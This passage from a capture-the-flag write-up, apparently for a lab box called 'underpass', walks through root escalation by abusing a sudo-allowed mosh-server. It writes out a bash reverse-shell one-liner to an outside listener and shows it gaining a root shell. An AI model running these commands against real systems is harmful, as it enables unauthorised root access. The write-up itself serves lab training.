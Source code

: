 Nothing happened in my listener, maybe we need to connect to this server.

To do that we can use `mosh-client`.

The man page of the client show us how to do that.

```bash
MOSH_KEY=KEY mosh-client IP PORT
```

The key is provided to us after creating the server `C6CMnpwy9XvuV2KCOvuldQ`.

Now let's connect.

```bash
MOSH_KEY=C6CMnpwy9XvuV2KCOvuldQ mosh-client 127.0.0.1 9999
```

And with that I managed to get a connection on my listener.

![list](7.png)

No let's get a shell.

I'll create another server and run the following reverse shell

```bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.16016/9001 0>&1"
```

Now the sudo command looks like this.

```bash
sudo /usr/bin/mosh-server new -s -i 127.0.0.1 -p 9998 -- bash -c "/bin/bash -i >& /dev/tcp/10.10.16.16/9001 0>&1"
```

```terminal
svcMosh@underpass:~$ sudo /usr/bin/mosh-server new -s -i 127.0.0.1 -p 9998 -- bash -c "/bin/bash -i >& /dev/tcp/10.10.16.16/9001 0>&1"
Warning: SSH_CONNECTION not found; binding to any interface.


MOSH CONNECT 9998 jWlUu7jDZHnYg5qUD9eBmg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 3505]

svcMosh@underpass:~$ MOSH_KEY=jWlUu7jDZHnYg5qUD9eBmg mosh-client 127.0.0.1 9998
```

Now if we check our listener we find a root shell.

![root](8.png)
